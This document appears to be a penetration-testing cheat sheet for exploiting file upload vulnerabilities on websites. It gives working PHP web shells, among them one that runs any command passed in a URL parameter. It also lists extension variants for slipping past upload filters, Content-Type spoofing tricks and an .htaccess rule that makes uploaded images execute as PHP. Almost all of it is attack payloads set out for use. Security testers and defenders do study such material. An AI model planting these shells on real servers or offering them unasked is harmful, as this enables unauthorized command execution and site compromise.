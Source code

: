 You should always test for file upload vulnerabilities by trying to upload simple php shells in target websites.

<?php system('ls') ?>
<?php system('id') ?>
<?php system($_GET['cmd']); ?>
## Via Common php file extensions:
1. .php
2. .php3
3. .php4
4. .php5
5. .php6
6. .phtml
7. .png.php
8. .jpg.php
9. .jpeg.php


for shell.php above add ?cmd=<command-e.g whoami> in the path where the file is uploaded eg /images/safeImage.php?cmd=whoami

## via Content-Type Header Tricks (For Upload Bypass)
image/jpeg	Upload shell.php but rename it shell.jpg and set this as Content-Type. Some apps only check the Content-Type.
application/x-php	Old trick if server-side allows this — rare now.
application/octet-stream	Generic binary stream. Sometimes used to bypass filters that expect image/*.
text/plain	Might bypass if the app only checks for image MIME types.
multipart/form-data; boundary=xyz	Used to send raw POST data for file upload, manipulating boundaries and headers.
text/html	Sometimes used to trick filters, especially in combo with file extension manipulation.
image/png + fake header	Use a real image header + PHP code.


## Via .htaccess:
filename=".htaccess"    OR    ".htaccess%00.jpg"

  AddType application/x-httpd-php .jpg         ---->This will process any jpg file uploaded as php: Also make sure to set Content-Type: application/x-php when uploding the   jpg

  AddType text/html .jpg                       ---->This will process any jpg file uploaded as html

